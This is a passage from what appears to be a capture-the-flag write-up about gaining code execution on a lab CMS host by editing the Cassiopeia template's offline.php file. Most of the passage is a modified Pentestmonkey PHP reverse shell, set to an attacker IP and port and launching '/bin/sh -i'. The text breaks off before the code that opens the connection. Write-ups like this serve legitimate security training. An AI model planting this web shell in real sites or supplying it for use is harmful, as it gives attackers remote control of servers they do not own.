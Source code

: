 
A classic way to get code execution execution in CMS platforms is by editing a template. I chose to edit the **offline.php** file from the **Cassiopeia** template. Follow the following url and you can edit this file.

```
http://dev.devvortex.htb/administrator/index.php?option=com_templates&view=template&id=223&file=L29mZmxpbmUucGhw&isMedia=0
```

Then i uploaded the php reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Below the code i adjusted and uploaded.

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.194';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//
```